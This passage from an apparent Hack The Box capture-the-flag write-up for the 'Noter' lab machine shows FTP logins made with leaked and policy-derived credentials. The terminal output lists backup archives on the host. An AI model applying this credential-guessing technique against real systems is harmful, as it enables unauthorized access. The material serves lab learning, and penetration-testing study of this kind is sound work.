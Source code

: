 ### Enumerating on ftp service

	name: blue
	password: blue@Noter!

```shell
┌─[htb-enum0re☺pwnbox-base]─[~]
└──╼ $ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:root): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
```

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/LINUX/noter/assets/images/9.png" >
</center>

Based on the password creation policy and `ftp_admin` account we can login as ftp_admin in ftp service.

	name: ftp_admin
	password: ftp_admin@Noter!

```shell
┌─[htb-enum0re☺pwnbox-base]─[~]
└──╼ $ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:root): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```
